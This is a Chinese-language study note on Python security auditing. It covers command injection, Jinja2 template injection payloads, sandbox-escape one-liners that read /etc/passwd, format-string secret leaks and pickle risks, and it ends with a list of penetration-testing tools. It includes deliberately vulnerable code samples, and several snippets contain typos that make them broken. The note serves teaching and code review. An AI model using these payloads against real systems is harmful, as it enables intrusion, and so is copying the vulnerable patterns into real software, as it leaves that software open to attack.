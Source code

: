 # Python代码审计

## OS命令注入

- 与OS命令注入攻击相关的模块：`eval()`、`os.system()`、`os.popen*`、`subprocess.popenos.spawn*`、`commands.*`、`popen2.*`。

  - 下面是一个用Python中Django写的，可以利用eval命令注入的简单Python Web服务的Demo：

  ```python
  def eval_test(request):
      if request.method == 'GET':
          return render_to_response('eval.html',context_instance=RequesetContext(request))
      elif request.method == 'POST':
          domain = request.POST.get('domain','')
          command = "os.popen('whois" + domain + "')"
          output = eval(command)
      return render_to_response('eval.html', {'output':output.readlines()}, context_instance=RequestContext(request))
  ```
  - OS命令注入：subprocess.call函数（shell=True时，函数会在命令前添加-c选项）。开发建议 &rarr; 使用pipes.quote()函数去过滤用户输入；尽量不要使用shell=True...

  ```python
  subprocess.call("cat " + user_input, shell=True)
  subprocess.call("cat %s"%(user_input), shell=True)
  subprocess.call("cat {0}".format(user_input), shell=True)
  ```

### 简单练习

```python
@app.route("/eval/")
def eval_test():
    ip = request.args.get('ip', '127.0.0.1')
    output = os.popen('ping -c 2' + ip).readlines()
    output = '<br>'.join(output)
    t = Template(output)
    return r.render()
```

## 服务端模板注入（SSTI）

- 发生在MVC框架的view层。

  - 模板注入：`{{9-6}}`，在括号内的内容会被当作Python模板被执行

  ```python
  @app.route("/")
  def index():
      name = request.args.get('name', 'guest')
      t = Template('Hello', name)
      return t.render()
  ```

  - 利用jinjia2语法执行命令：

  ```python
  {% for c in [].__class__.__base__.__subclass__() %}
  	{% if c.__name__ == 'catch_warnings' %}
      {% for b in c.__init__.globals__.values() %}
      	{% if b.__class__ == {}.__class__ %}
          	{% if 'eval' in b.keys() %}
              	{{ b['eval']('__import__("os").popen("id").read()') }}
              {% endif %}
          {% endif %}
      {% endfor %}
      {% endif %}
  {% endfor %}
  ```

  ```python
  [].__class__.__base__.subclasses__()[60].__init__.__globals__.values()[13]['eval']('__import__("os").popen("id").read()')
  ```

- 服务器端模板注入相当于控制了对方的view层，可以获得一切jinja2中可以获取的数据。但此时我们仍然在jinja2的沙箱中，接下来我们需要绕过沙箱。

## Python沙箱逃逸

- 沙箱一般是限制指定函数的运行，或者对指定模块的删除以及过滤

### 任意代码执行

- 一些任意代码执行以及文件读取的函数
  1. os执行系统命令：`os.system('ipconfig')`
  2. exec任意代码执行：`exec('__import__("os").system("ipconfig")')`
  3. eval任意代码执行：`eval('__import__("os").system("ipconfig")')`
  4. timeit &rarr; 本是检测本机性能的，也可以任意代码执行：`timeit.timeit("__import__('os').system('ipconfig')", number=1)`
  5. platform：`platform.popen('ipconfig').read()`
  6. subprocess：`subprocess.Popen('ipconfig', shell=True, stdout=subprocess.PIPE, stderr=subprocess)`
  7. file：`file('/etc/passwd').read()`
  8. open：`open('/etc/passwd').read()`
  9. codecs：`codecs.open('/etc/passwd').read()`

### 其他攻击方法

- *PS*：Bypass明文过滤源码

```python
import re
pattern = re.complile('(os|commands|subprocess|sys)')
while True:
    code = raw_input('')
    match = re.search(pattern, code)
    if match:
        print("forbidden module import detected.")
    else:
        print("Succ!")
```

- base64编码方式逃逸（只适用于Python2）。例子：

```python
__buildins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64'))
# 等价于 __buildins__.__dict__['__import__'](os)
```

- 格式化字符串问题。

  1. 在以下代码中，如果用户输入`%(password)s` 就可以获得用户的真实密码了。

  ```python
  userdata = {"user":"jdoe", "password":"secrect"}
  passwd = raw_input("Password:")

  if passwd != userdata["password"]:
      print("Password "+ passwd + " is wrong for user %(user)s")	%userdata
  ```

  2. 在以下代码中可以通过`{event.__init__.__globals__[CONFIG][SECRET_KEY]}` 就可以泄露敏感信息。

  ```python
  CONFIG = {
      'SECRET_KEY': 'super secret key'
  }

  class Event(object):
      def __init__(self, id, level, message):
          self.id = id
          self.level = level
          self.message = message

  def format_event(format_string, event):
      return format_string.format(event=event)
  ```

### 使用del过滤防御

```python
del __builtins__.__dict__['__import__']
del __builtins__.__dict__['eval']
del __builtins__.__dict__['execfile']
del __builtins__.__dict__['input']
# 因为可以绕过del过滤：reload(__buildtins__)，解决办法：
del __builtins__.__dict__['reload']
```
## 反序列化

- `pickle.dump(obj, file[,protocol])` &rarr; 序列化对象，并将结果数据写入到文件对象中（protocol是序列化模式，默认值为0以文本的形式序列化）

- `pickle.load(file)` &rarr; 反序列化对象，将文件中的数据解析成为一个Python对象。
- pickle的典型应用场景：
  1. 通常在解析认证token、session的时候；
  2. 可能将对象Pickle后存储成磁盘文件；
  3. 可能将对象Pickle后在网络中传输；
  4. 可能参数传递给程序，比如一个sqlmap代码执行漏洞。

# 内网渗透

- 预交互、情报搜集、威胁建模、脆弱点分析、漏洞利用、后漏洞利用、撰写报告

## 扫描网络

- 被动信息扫描 &rarr; 开源情报（OSINT）
  - 信息收集框架：Recon-ng、Discover、SpiderFoot、Gitrob-Github
- 端口扫描：Nmap、Zmap、Masccan
- 漏洞扫描：Cobalstrike、Tenable Nessus、Rapid7 Nexpose、OpenVas、Metasploit、Nmap scripts、巡风（偏内网资产审计）
- 漏洞利用：metasploit、meterpreter
- 添加路由：route add/remove subnet_addr

## 域渗透

- 工作组、家庭组
- *P.S.*：信息安全四大顶会，RSAP
